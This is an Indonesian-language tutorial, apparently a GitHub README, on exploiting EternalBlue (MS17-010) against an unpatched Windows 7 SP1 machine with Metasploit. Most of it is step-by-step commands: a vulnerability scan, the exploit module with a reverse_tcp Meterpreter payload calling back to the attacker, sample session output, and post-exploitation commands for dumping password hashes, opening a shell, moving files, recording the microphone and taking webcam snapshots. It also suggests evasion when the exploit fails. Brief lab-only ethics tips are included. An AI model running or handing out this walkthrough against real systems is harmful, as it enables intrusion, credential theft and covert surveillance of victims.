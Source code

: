 # Exploit Real Target: Windows 7 SP1 dengan EternalBlue (MS17-010)

## A. Apa Itu EternalBlue?

`EternalBlue` adalah sebuah exploit untuk kerentanan [SMB](https://en.wikipedia.org/wiki/Server_Message_Block)v1 (Server Message Block version 1) pada sistem Windows, yang ditemukan oleh [NSA](https://www.nsa.gov/) dan bocor oleh grup [Shadow Brokers](https://en.wikipedia.org/wiki/The_Shadow_Brokers).

- Kerentanan ini diberi ID: `CVE-2017-0144`
- Dapat digunakan untuk RCE (remote code execution) tanpa autentikasi.
- Sangat efektif terhadap `Windows XP`, `Vista`, `7`, `8`, `Server 2003`, `2008`, hingga `2012` yang belum di-patch.

## B. Alat dan Bahan

- `Kali Linux` dengan `Metasploit Framework`
- Target: `Windows 7 SP1` (belum di-patch MS17-010)
- Koneksi jaringan lokal antara attacker dan target

## C. Langkah-Langkah Eksploitasi EternalBlue

### 1. Jalankan Metasploit

```
msfconsole
```

Tunggu sampai muncul prompt seperti ini:

```
msf6 >
```

### 2. Scan Target

Sebelum melakukan eksploitasi terhadap target, langkah awal sebelum melakukan eksploitasi adalah dengan meng-scan target, apakah target rentan atau tidak.

Gunakan modul `uxiliary/scanner/smb/smb_ms17_010` dari Metasploit untuk meng-scan EternalBlue:

```
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <IP_TARGET>
set RPORT 445
set verbose true
run
```

Kalau hasil output-nya seperti ini:

```
[*] 192.168.1.45:445      - Connected to \\192.168.1.45\IPC$ with TID = 2048
[*] 192.168.1.45:445      - Received STATUS_INSUFF_SERVER_RESOURCES with FID = 0
[+] 192.168.1.45:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.1.45:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Itu artinya target rentan terhadap eksploitasi EternalBlue.

### 3. Eksploitasi Target

Untuk melakukan eksploitasi EternalBlue gunakan modul `exploit/windows/smb/ms17_010_eternalblue` dari Metasploit:

```
use exploit/windows/smb/ms17_010_eternalblue
```

**Atur Parameter**

```
set RHOSTS <IP_TARGET>
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
```

**Jalankan Eksploit**

```
exploit
```

Jika berhasil, kamu akan mendapatkan sesi Meterpreter.

```
[*] Sending stage (203846 bytes) to 192.168.1.10
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700

meterpreter > 
```

Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

Melihat informasi sistem target:

```
sysinfo
```

Menampilkan User ID (UID):

```
getuid
```

Mengekstrak hash password pengguna:

```
hashdump
```                    

Membuka command shell (cmd.exe) dari mesin korban:

```
shell
```                    

Upload file ke target

```
upload 
```           

Download file dari target

```
download
```

Rekam suara dari microphone target:

```
record_mic 
```     

Ambil snapshot dari webcam target:

```
webcam_snap
```

Dan masih banyak lagi.

## D. Tips Keamanan dan Etika

- Gunakan hanya di lab atau uji coba yang kamu kelola sendiri.
- Jangan gunakan di jaringan orang lain tanpa izin.
- Windows 7 SP1 sudah tidak mendapatkan update, tapi banyak masih digunakan di sistem tua, gunakan untuk pelatihan, bukan penyerangan nyata.

## E. Catatan Tambahan

- Jika exploit gagal, coba gunakan `encoder` atau teknik `evasion`.
- Pastikan SMB port (445) pada target terbuka.
- Selalu tes di `VirtualBox`/`VMware`.
